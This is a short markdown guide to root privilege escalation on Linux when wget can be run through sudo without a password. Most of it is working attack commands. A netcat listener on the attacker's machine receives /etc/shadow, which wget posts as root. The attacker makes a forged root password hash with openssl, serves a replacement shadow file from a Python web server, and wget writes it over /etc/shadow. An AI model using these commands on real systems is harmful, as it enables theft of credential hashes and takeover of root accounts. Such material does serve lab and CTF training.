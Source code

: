 # Sudo Wget Privilege Escalation

The "sudo wget" command may be vulnerable to privilege escalation (PrivEsc).

```
Investigation
sudo -l


(root) NOPASSWD: /usr/bin/wget
If we can execute "wget" as root, we may be able to escalate privileges.
```

## Modify /etc/shadow

Get "/etc/shadow" and generate a new hash passwd, then set it to the shadow file, next upload it.
That changes the root password.

### 1. Get the Content of /etc/shadow

To see the content of /etc/shadow, we can use netcat listener.
So First, start a listener in local machine.
```
nc -lvnp 4444
```
In target machine, display the contents of the "/etc/shadow" to the local machine using the following command.
```
sudo /usr/bin/wget --post-file=/etc/shadow <local-ip> 4444
```
We should see the content in our local machine via netcat listener.
Copy the content.

### 2. Create a New Shadow File

We create a new shadow file in local. The shadow file will be stored into the target /etc/shadow later.
```
nano shadow.txt
```
In the editor paste the content of /etc/shadow which we've copied in the previous section.

### 3. Create a New Root User Password and Add to Shadow File
Generate a new hash password for a new root user in local machine.
```
 -6: SHA512
openssl passwd -6 -salt 'salt' 'password'
```
Copy the generated password and paste it at the password of the root user into the "shadow.txt".
As a result, the contents of the "shadow.txt" should look like this:
```
root:$6$salt$IxDD...DCy.g.:18195:0:99999:7:::
```

### 4. Transfer the Content of the Shadow File

To put the shadow.txt into the target machine, start web server for hosting this file.
```
python3 -m http.server 8000
```
Download this file into the /etc/shadow in remote machine. To do that, we need to run it as root.
```
sudo /usr/bin/wget http://<local-ip>:8000/shadow.txt -O /etc/shadow 
```
Finally, you can switch to the root user with the password we've created.
```
su root
```

